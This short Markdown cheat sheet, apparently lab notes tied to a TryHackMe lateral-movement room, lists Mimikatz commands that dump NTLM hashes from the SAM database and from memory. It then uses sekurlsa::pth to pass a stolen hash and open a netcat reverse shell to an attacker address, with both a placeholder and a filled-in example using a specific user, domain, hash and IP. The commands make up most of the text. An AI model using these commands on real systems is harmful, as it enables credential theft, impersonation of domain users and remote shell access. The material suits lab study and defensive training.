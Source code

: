 # Mimikatz Commands

```
privilege::debug
```
```
token::elevate
```
This method will only allow you to get hashes from local users on the machine. No domain user's hashes will be available:
```
lsadump::sam
```
This method will let you extract any NTLM hashes for local users and any domain user that has recently logged onto the machine.
```
sekurlsa::msv
```

We can then use the extracted hashes to perform a Pass the Hash (PtH) attack by using mimikatz to inject an access token for the victim user on a reverse shell (or any other command you like) as follows:
```
token::revert
```
```
sekurlsa::pth /user:[USERNAME] /domain:[DOMAIN] /ntlm:[HASH] /run:"c:\tools\nc64.exe -e cmd.exe [ATTACK-IP] [PORT]"
```
Example:
```
sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe 10.50.61.3 5555"
```
Notice we used token::revert to reestablish our original token privileges, as trying to pass-the-hash with an elevated token won't work. This would be the equivalent of using runas /netonly but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user. Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

############################################

## Reference

* https://tryhackme.com/room/lateralmovementandpivoting

